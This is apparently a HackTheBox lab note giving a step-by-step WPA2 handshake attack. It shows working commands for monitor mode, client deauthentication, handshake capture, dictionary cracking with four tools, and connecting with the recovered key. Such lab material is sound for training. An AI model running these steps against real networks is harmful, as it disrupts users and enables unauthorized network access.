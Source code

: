 # Chain #10: Traditional WPA/WPA2 Password Attack

## Goal & Scope

Recover a WPA2‑PSK passphrase from a captured **4‑Way Handshake**, using reconnaissance, capture, offline cracking, and access verification.

This chain focuses **only** on the traditional WPA workflow. Advanced cracking strategies (rules, masks, combinator, hybrid, CPU/GPU tuning) are left for later chains.

---

## Step 1 — Reconnaissance

Put the NIC into monitor mode and identify the target AP and client.

**Enable monitor mode:**

```bash
sudo airmon-ng start wlan0
```

- `airmon-ng`: Tool that manages wireless interfaces for Aircrack‑ng suite.
- `start wlan0`: Tells airmon‑ng to put interface `wlan0` into monitor mode.
- Result: New interface `wlan0mon` created.
- Monitor mode = listen to all 802.11 traffic without being associated.

**Scan networks and save output:**

```bash
sudo airodump-ng wlan0mon -c 1 -w WPA
```

- `wlan0mon`: Interface in monitor mode.
- `-c 1`: Lock scanning to channel 1 (prevents hopping and missing packets).
- `-w WPA`: Save capture to file prefix `WPA` → produces `WPA-01.cap`.

Take note of:

- **BSSID** (MAC address of AP).
- **ESSID** (SSID string).
- **STATION** (client MAC) with live traffic.

---

## Step 2 — Handshake Capture

Force a reconnect to elicit the 4‑Way Handshake; verify it’s present.

**Deauthenticate a client:**

```bash
sudo aireplay-ng -0 5 -a <AP_BSSID> -c <CLIENT_MAC> wlan0mon
```

- `aireplay-ng`: Tool for packet injection attacks.
- `-0`: Deauthentication attack type.
- `5`: Number of deauth bursts to send (0 = infinite).
- `-a <AP_BSSID>`: Target AP MAC address.
- `-c <CLIENT_MAC>`: Target client MAC.
- `wlan0mon`: Monitor mode interface.

Effect: Client disconnects, then reconnects → handshake packets captured.

**Confirm in airodump‑ng window:**

```
[ WPA handshake: <AP_BSSID> ]
```

**Optional: Validate capture with Cowpatty:**

```bash
cowpatty -c -r WPA-01.cap
```

- `-c`: Check mode (only verifies handshake validity).
- `-r WPA-01.cap`: Reads the capture file.
- Output: “Collected all necessary data …” if handshake is good.

---

## Step 3 — Password Cracking

Use the capture to attempt dictionary cracking with multiple tools.

### 3.A — Cowpatty

```bash
cowpatty -r WPA-01.cap -f /opt/wordlist.txt -s "HackTheBox"
```

- `-r WPA-01.cap`: Capture file containing handshake.
- `-f /opt/wordlist.txt`: Wordlist path.
- `-s "HackTheBox"`: Target SSID (needed for key derivation).

### 3.B — Aircrack‑ng

```bash
sudo aircrack-ng WPA-01.cap -w /opt/wordlist.txt
```

- `WPA-01.cap`: Handshake capture.
- `-w /opt/wordlist.txt`: Wordlist to test.
- Output: Shows cracking progress and displays `KEY FOUND!` if successful.

### 3.C — John the Ripper

**Convert handshake to John format:**

```bash
/opt/wpapcap2john WPA-01.cap > hash
```

- `wpapcap2john`: Converts .cap into a hash format John can process.
- Output redirected to file `hash`.

**Crack with wordlist:**

```bash
john hash --wordlist=/usr/share/wordlists/rockyou.txt --format=wpapsk
```

- `--wordlist`: Path to dictionary.
- `--format=wpapsk`: Specifies WPA cracking mode.

**Show results:**

```bash
john hash --show
```

- Displays recovered passwords.

### 3.D — Hashcat

**Convert capture to mode 22000 format:**

```bash
hcxpcapngtool -o hash WPA-01.cap
```

- `hcxpcapngtool`: Converts .cap into Hashcat’s unified WPA format.
- `-o hash`: Output file named `hash`.

**Run dictionary attack:**

```bash
hashcat -m 22000 hash /opt/wordlist.txt
```

- `-m 22000`: Hashcat mode for WPA‑EAPOL/PMKID.
- `hash`: Converted handshake.
- `/opt/wordlist.txt`: Wordlist path.

**Show cracked passwords:**

```bash
hashcat -m 22000 hash /opt/wordlist.txt --show
```

- Displays cracked PSK(s) if present in potfile.

---

## Step 4 — Access Verification

Confirm cracked PSK by connecting to the network.

### 4.A — NetworkManager CLI

```bash
nmcli dev wifi connect "HackTheBox" password "<PSK>"
```

- `nmcli`: Command‑line interface for NetworkManager.
- `dev wifi connect`: Connect to SSID.
- `password`: Supply cracked PSK.

### 4.B — wpa_supplicant

**Generate config with passphrase:**

```bash
wpa_passphrase "HackTheBox" "<PSK>" | sudo tee /etc/wpa_supplicant/htb.conf >/dev/null
```

- `wpa_passphrase`: Creates WPA config block.
- `tee /etc/wpa_supplicant/htb.conf`: Save config.

**Start wpa_supplicant:**

```bash
sudo wpa_supplicant -B -i wlan0 -c /etc/wpa_supplicant/htb.conf
```

- `-B`: Run in background.
- `-i wlan0`: Interface.
- `-c`: Config file path.

**Request DHCP lease:**

```bash
sudo dhclient wlan0
```

- Obtains IP from AP to confirm access.

---

## Checklist (Quick Run)

1. `airmon-ng start wlan0`
2. `airodump-ng wlan0mon -c <ch> -w WPA`
3. `aireplay-ng -0 5 -a <BSSID> -c <STA> wlan0mon`
4. Confirm `[ WPA handshake: <BSSID> ]`
5. Crack with Cowpatty / Aircrack‑ng / John / Hashcat
6. Verify access with `nmcli` or `wpa_supplicant`